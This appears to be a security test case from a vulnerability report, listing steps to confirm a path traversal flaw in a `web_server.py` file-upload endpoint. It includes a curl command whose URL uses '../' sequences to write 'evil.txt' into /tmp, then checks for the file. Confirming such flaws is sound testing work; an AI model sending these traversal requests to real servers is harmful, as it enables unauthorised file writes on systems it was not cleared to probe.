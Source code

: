 - Security Test Case:
    1. Deploy and run the `web_server.py` application on a test server. Ensure the 'target' directory exists in the same directory as `web_server.py`.
    2. Open a terminal and use `curl` to send a POST request to the `/file` endpoint with a path traversal filename.

    ```bash
    curl -X POST \
         -H "Content-Type: multipart/form-data" \
         -F "file=@/dev/urandom" \
         "http://<server_ip>:8000/file/../../../../tmp/evil.txt"
    ```
    Replace `<server_ip>` with the actual IP address or hostname where `web_server.py` is running. `/dev/urandom` is used as a dummy file for upload content.

    3. After executing the `curl` command, log in to the test server using SSH or console access.
    4. Check if the file `evil.txt` has been created in the `/tmp` directory.

    ```bash
    ls -l /tmp/evil.txt
    ```

    5. If the file `/tmp/evil.txt` exists, it confirms the path traversal vulnerability, as the attacker was able to write a file outside the intended 'target' directory.
